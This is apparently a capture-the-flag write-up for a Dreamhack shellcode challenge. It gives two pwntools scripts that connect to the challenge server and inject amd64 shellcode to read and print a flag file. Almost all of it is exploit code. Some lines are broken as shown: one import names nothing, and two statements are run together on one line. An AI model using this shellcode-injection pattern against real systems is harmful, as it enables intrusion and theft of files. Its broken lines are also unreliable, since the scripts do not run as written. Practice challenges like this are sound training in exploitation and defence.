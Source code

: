 https://dreamhack.io/wargame/challenges/410

# solve : shellcraft
```python
from pwn import

p = remote('host2.dreamhack.games', 18670)
context.arch = 'amd64'
r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = ''
shellcode += shellcraft.open(r)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)

p.recvuntil("shellcode: ") 
p.sendline(asm(shellcode))

print(p.recv())
```

# solve : shellcraft2
```python
from pwn import * 

r = remote("host3.dreamhack.games", 16087)
context.arch = "amd64" r.recvuntil(b"shellcode: ")

filedirect = "/home/shell_basic/flag_name_is_loooooong" 
shellcode = shellcraft.linux.cat(filedirect) 

r.send(asm(shellcode)) 
r.interactive()
```